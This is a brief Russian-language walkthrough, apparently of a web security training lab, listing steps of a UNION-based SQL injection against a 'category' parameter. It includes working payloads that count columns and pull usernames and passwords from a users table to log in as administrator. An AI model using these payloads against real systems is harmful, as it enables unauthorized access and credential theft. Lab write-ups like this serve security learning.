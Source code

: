 1) Проверка, что столбцов 2  ( добавляем к "category" '+UNION+SELECT+NULL,NULL-- )
2) Добавив '+UNION+SELECT+'a','a'-- , узнаем, что оба поля содержат текст
3) Добавив '+UNION+SELECT+username,+password+FROM+users-- , извлекаем пароли
4) Находим и вводим логин и пароль для "administrator"
5) Лабораторная выполнена
